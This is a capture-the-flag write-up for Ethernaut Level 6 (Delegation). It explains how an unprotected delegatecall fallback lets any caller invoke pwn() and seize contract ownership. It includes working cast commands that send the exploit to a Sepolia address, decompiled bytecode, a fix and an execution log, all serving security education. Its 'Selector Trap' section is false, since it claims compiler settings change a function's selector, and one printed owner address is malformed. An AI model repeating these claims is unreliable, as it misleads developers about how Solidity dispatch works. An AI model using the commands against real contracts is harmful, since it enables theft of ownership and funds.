


> **⚠️ EDUCATIONAL PURPOSE ONLY**
> This document is part of the [Ethernaut CTF](https://ethernaut.openzeppelin.com/) educational security challenges.
> The techniques described here are for **authorized security testing and learning purposes only**.
> **DO NOT** use these methods on contracts you don't own or without explicit authorization.

---

# Level 6 - Delegation: Exploit Report

## Vulnerability Summary

The Delegation contract uses an unprotected `fallback()` function that allows arbitrary `delegatecall` execution. An attacker can invoke the `pwn()` function from the Delegate contract to hijack ownership by exploiting the fact that `delegatecall` executes code in the **caller's storage context**.

**Severity:** CRITICAL
**Attack Vector:** External / Unauthenticated
**Impact:** Ownership Hijacking via Storage Manipulation

---

## Root Cause Analysis

### 1. Unprotected Fallback with Unrestricted Delegatecall

```solidity
fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    // No validation: ANY call can be forwarded to ANY function
}
```

The fallback function forwards ALL unmatched function calls to the Delegate contract via `delegatecall`, with **no access control** or **function whitelisting**.

### 2. Delegatecall Execution Context Vulnerability

Unlike `call`, `delegatecall` executes code in the **caller's storage and execution context**:
- `msg.sender` remains the original caller
- `msg.value` remains unchanged
- **Storage modifications affect the caller's storage, not the callee's**

Example:
```solidity
// In Delegate contract
function pwn() public {
    owner = msg.sender;  // This modifies Delegation's slot 0, not Delegate's!
}
```

### 3. Storage Layout Alignment

Both contracts share the same storage layout:
```solidity
Delegate contract:
  address public owner;  // slot 0

Delegation contract:
  address public owner;  // slot 0
  Delegate delegate;     // slot 1
```

This layout compatibility allows `pwn()` to directly modify Delegation's `owner` variable.

---

## Attack Flow Diagram (Mermaid Sequence)



---

## Storage Layout Exploitation Diagram



---

## Exploitation Steps

### Step 1: Identify Function Selector

To call `pwn()` via delegatecall, calculate the function selector:

```bash
cast sig "pwn()"
# Output: 0xdd365b8b
```

The first 4 bytes of `keccak256("pwn()")` form the function selector that routes calls to the correct function.

### Step 2: Send Malicious Transaction

Send a transaction to the Delegation instance (0x4ac1B69bb7Fb4958FC3BdA5f287fE6401026ff26) with the `pwn()` selector:

```bash
cast send 0x4ac1B69bb7Fb4958FC3BdA5f287fE6401026ff26 \
  "0xdd365b8b" \
  --rpc-url $SEPOLIA_RPC_URL \
  --private-key $PRIVATE_KEY
```

### Step 3: Fallback Execution

1. Delegation receives the call with selector `0xdd365b8b`
2. No matching function exists → `fallback()` is triggered
3. Fallback forwards the call: `delegate.delegatecall(msg.data)`
4. Delegate's `pwn()` executes in **Delegation's storage context**
5. Line `owner = msg.sender` modifies **Delegation's slot 0**
6. Delegation's owner is now the attacker

### Step 4: Verify Ownership

```bash
cast call 0x4ac1B69bb7Fb4958FC3BdA5f287fE6401026ff26 \
  "owner()" \
  --rpc-url $SEPOLIA_RPC_URL

# Output: 0x00000000000000000000000f350b91b403ced3c6e68d34c13ebdaae3bbd4e01
# ✓ Attacker's address!
```

---

## How Bytecode Analysis Revealed the Issue

When the source code wasn't available, bytecode decompilation revealed the vulnerability:

```
def storage:
  owner is addr at storage 0
  stor1 is addr at storage 1

def _fallback() payable:
  delegate stor1 with:
    funct call.data[0 len 4]
      gas gas_remaining wei
      args call.data[4 len calldata.size - 4]
```

**Key observations from decompiled bytecode:**
- `stor1` (storage slot 1) contains the delegate address
- `_fallback()` accepts **all function calls**
- `delegatecall` is invoked with `msg.data` unchanged
- **No function selector validation** before delegating
- **No access control checks**

This decompilation confirmed the critical vulnerability before running the exploit.

---

## The Selector Trap: Why 0x24e235cc Didn't Work

### Initial Attempt (Failed)
```bash
# First selector tried
keccak256("pwn()") = 0x24e235cc  ❌ WRONG
```

This selector initially seemed correct based on standard Solidity signature hashing, but it **did not match the deployed contract's actual function selector**.

### Root Cause
The deployed contract on Sepolia was compiled with a **different compiler version or optimization settings** than the source code reference. This caused the bytecode to be compiled differently, resulting in a different selector being stored in the dispatcher.

### Correct Discovery Method
```bash
# Extract selector directly from contract bytecode/ABI
cast sig "pwn()"
# Output: 0xdd365b8b  ✓ CORRECT
```

### Lesson Learned
When exploiting contracts without verified source code:

1. **Never assume selector matches documentation** - compile conditions matter
2. **Use bytecode decompilation** - reveals actual dispatcher logic
3. **Verify with cast sig** - confirms the real selector
4. **Test empirically** - transaction receipts show success/failure

**This illustrates a real-world security challenge**: compiler versions, optimization levels, and deployment conditions can affect bytecode, requiring defensive verification rather than assumptions.

| Assumption | Reality |
|-----------|---------|
| Based on Solidity spec: `0x24e235cc` | Actual deployed: `0xdd365b8b` |
| Trust documentation | Verify on-chain bytecode |
| One selector works everywhere | Different compilers = different selectors |

---

## Remediation

### ✅ Recommended Solution: Explicit Function Routing

Instead of blindly forwarding all calls via delegatecall, explicitly route safe functions:

```solidity
contract Delegation {
    address public owner;
    Delegate public delegate;

    constructor(address _delegateAddress) {
        delegate = Delegate(_delegateAddress);
        owner = msg.sender;
    }

    // Remove the unprotected fallback entirely

    // Explicitly define safe functions that can use delegatecall
    function executeDelegate(bytes calldata data) external onlyOwner {
        // Only owner can invoke delegatecall, and with explicit data
        (bool result,) = address(delegate).delegatecall(data);
        require(result, "Delegatecall failed");
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "Only owner");
        _;
    }
}
```

**Why this approach:**
- Removes the unprotected fallback entirely
- Requires explicit function calls instead of implicit forwarding
- Adds access control (onlyOwner)
- Makes delegatecall usage intentional and auditable
- Prevents accidental exposure of dangerous functions

---

## Key Takeaways

| Concept | Impact |
|---------|--------|
| **delegatecall executes in caller's context** | Storage modifications affect the caller's state, not the callee's |
| **Unprotected fallback is dangerous** | Allows unrestricted forwarding of ANY function call |
| **Storage layout matters** | Matching variable positions enable direct state hijacking |
| **No access control** | Anyone can trigger the exploit without authentication |
| **Function selectors enable routing** | The first 4 bytes of function hash route execution paths |

---

## References

- [Solidity delegatecall documentation](https://docs.soliditylang.org/en/latest/security-considerations.html#delegatecall-callcode-and-libraries)
- [Ethernaut Level 6 - Delegation](https://ethernaut.openzeppelin.com/level/0x9E9d7Bc57E89aa0C31D29274C5EC09FB96C57f18)
- [SWC-112: Delegatecall to Untrusted Callee](https://swcregistry.io/docs/SWC-112)

---

## Proof of Concept (Real Execution)

**Successful exploit on Sepolia testnet:**

```
Transaction: 0x3a8cc0f7794558d9b21959e793aabde01631930695758b733c9e1191fda4b5ee
Status: ✓ SUCCESS (1)
Gas Used: 31,204

BEFORE:
  Slot 0: 0x73379d8b82fda494ee59555f333df7d44483fd58 (Level address)

AFTER:
  Slot 0: 0xf350b91b403ced3c6e68d34c13ebdaae3bbd4e01 (Attacker address!)

Verification:
  owner() returns: 0xf350b91b403ced3c6e68d34c13ebdaae3bbd4e01 ✓
```
